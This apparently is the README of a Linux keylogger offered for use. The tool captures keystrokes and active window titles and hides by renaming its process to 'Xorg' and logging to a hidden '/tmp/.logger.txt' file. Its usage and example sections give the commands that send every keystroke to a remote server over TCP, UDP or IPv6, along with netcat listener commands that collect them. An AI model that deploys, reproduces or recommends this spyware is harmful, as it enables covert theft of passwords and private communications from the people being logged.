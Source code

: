 # Simple_Local&Remote_Keylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##USAGE:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLE:

#####- [TCP]
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
#####- [UDP]
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
#####- [IPv6]
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```	
